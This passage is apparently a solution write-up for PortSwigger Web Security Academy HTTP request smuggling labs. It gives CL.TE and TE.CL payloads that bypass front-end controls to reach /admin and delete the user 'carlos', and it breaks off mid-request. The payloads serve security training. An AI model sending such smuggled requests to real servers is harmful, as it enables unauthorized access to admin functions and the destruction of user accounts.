 7. Observe that you can now access the admin panel.
8. Using the previous response as a reference, change the smuggled request URL to delete the user ``carlos``:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

# Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
Reference: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl


## Quick Solution
This lab is divided in two parts. In the first part the goal is to access the ``/admin`` page, in the second part the goal is to delete a user. So two different requests must be sent. Payloads in the next paragraph.


## Solution
1. Try to visit ``/admin`` and observe that the request is blocked.
2. In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
3. Using Burp Repeater, issue the following request twice:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
4. Observe that the merged request to ``/admin`` was rejected due to not using the header ``Host: localhost``.
5. Issue the following request twice:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

```